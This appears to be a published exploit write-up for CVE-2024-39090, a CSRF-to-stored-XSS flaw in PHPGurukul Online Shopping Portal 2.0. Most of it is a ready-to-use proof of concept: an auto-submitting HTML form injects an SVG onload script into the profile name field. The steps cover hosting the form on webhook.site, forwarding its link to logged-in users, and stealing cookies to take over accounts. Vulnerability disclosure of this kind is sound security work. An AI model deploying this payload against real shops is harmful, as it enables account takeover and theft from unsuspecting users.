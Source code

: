 ## CVE-2024-39090: PHPGurukul Online Shopping Portal Project 2.0 - CSRF to Stored XSS
![---------------------------------------------------------](https://raw.githubusercontent.com/andreasbm/readme/master/assets/lines/aqua.png)

**Exploit Title:** `PHPGurukul Online Shopping Portal Project 2.0 - CSRF to Stored XSS`  

**Exploit Author:** `Arijit Dirghangi`

**Vendor Homepage:** `https://phpgurukul.com/`

**Software Link:** `https://phpgurukul.com/shopping-portal-free-download/`

**Version:** `V 2.0`

**Vulnerable endpoint:** `https://localhost/shopping/my-account.php `

**Tested on :** `Windows 11, XAMPP`

### Proof-of-Concept
![---------------------------------------------------------](https://raw.githubusercontent.com/andreasbm/readme/master/assets/lines/aqua.png)

**To Reproduce:**

***1)*** Visit [https://webhook.site/](https://webhook.site/), click on 'edit,' and paste the below code into 'content,' then click on Save.

```html
<html>
  <body>
    <form action="https://localhost/shopping/my-account.php" method="POST">
      <input type="hidden" name="name" value="XSS&quot;&gt;LOL&lt;svg&#47;onload&#61;alert&#40;1&#41;&gt;&lt;" />
      <input type="hidden" name="contactno" value="1234567890" />
      <input type="hidden" name="update" value="" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

***2)*** A unique URL will be generated. Forward this URL to the end user. If the user is authenticated, the profile name will be updated with the malicious payload, and the XSS will be stored successfully.

***3)*** Using this Vulnerability, attacker can steal cookie user which cause to account takeover.

![---------------------------------------------------------](https://raw.githubusercontent.com/andreasbm/readme/master/assets/lines/aqua.png)

***Example URL:*** [https://webhook.site/93cd6aa7-7dcb-4bbb-a71b-30a47a81c46b](https://webhook.site/93cd6aa7-7dcb-4bbb-a71b-30a47a81c46b)

***Affected Endpoint:*** [https://localhost/shopping/my-account.php](https://localhost/shopping/my-account.php)

***PoC:*** https://drive.google.com/file/d/1KQbyImLDEY7BY9Vsa32OyeZafkLZ-jTe/view
